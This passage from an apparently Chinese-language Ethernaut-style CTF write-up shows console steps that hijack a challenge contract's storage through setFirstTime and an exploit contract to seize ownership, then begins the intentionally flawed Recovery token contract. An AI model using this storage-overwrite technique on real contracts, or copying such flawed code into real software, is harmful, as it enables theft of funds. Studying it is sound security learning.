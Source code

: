 实际操作：
```js
> await web3.eth.getStorageAt(instance, 0)
'0x000000000000000000000000<an address>'
> contract.setFirstTime("0x<Exploit contract address>")
> await web3.eth.getStorageAt(instance, 0)
'0x000000000000000000000000<Exploit contract address>'
> contract.setFirstTime(player)
> await web3.eth.getStorageAt(instance, 2) // owner
'0x000000000000000000000000<player address>'
> await contract.owner()
'0x<player address>'
```

---

## Recovery

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import '@openzeppelin/contracts/math/SafeMath.sol';

    contract Recovery {

        //generate tokens
        function generateToken(string memory _name, uint256 _initialSupply) public {
            new SimpleToken(_name, msg.sender, _initialSupply);
        
        }
    }

    contract SimpleToken {

        using SafeMath for uint256;
        // public variables
        string public name;
        mapping (address => uint) public balances;

        // constructor
        constructor(string memory _name, address _creator, uint256 _initialSupply) public {
            name = _name;
            balances[_creator] = _initialSupply;
        }

        // collect ether in return for tokens
        receive() external payable {
            balances[msg.sender] = msg.value.mul(10);
        }

        // allow transfers of tokens
        function transfer(address _to, uint _amount) public { 
            require(balances[msg.sender] >= _amount);
            balances[msg.sender] = balances[msg.sender].sub(_amount);
            balances[_to] = _amount;
        }
